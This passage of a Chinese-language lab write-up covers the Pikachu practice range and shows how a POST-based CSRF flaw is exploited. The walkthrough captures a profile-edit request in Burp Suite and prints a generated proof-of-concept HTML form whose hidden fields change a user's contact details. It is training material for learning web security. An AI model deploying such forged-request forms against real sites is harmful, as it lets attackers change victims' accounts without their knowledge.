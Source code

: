 同样,登陆,修改一下个人信息,并到 Brup Suite 上进行抓包,对于 POST型,请求已经不能通过修改 URL 来借用用户权限,那么需要自己做一个表单,再返回到提交页面来完成修改.

**漏洞利用**

直接从 burp 生成 poc 表单

![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/pikachu/21.png)

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://<IP address>/pikachu/vul/csrf/csrfpost/csrf_post_edit.php" method="POST">
      <input type="hidden" name="sex" value="futa1" />
      <input type="hidden" name="phonenum" value="1110" />
      <input type="hidden" name="add" value="1213" />
      <input type="hidden" name="email" value="lil1i&#64;pikachu&#46;com1" />
      <input type="hidden" name="submit" value="submit" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/pikachu/22.png)
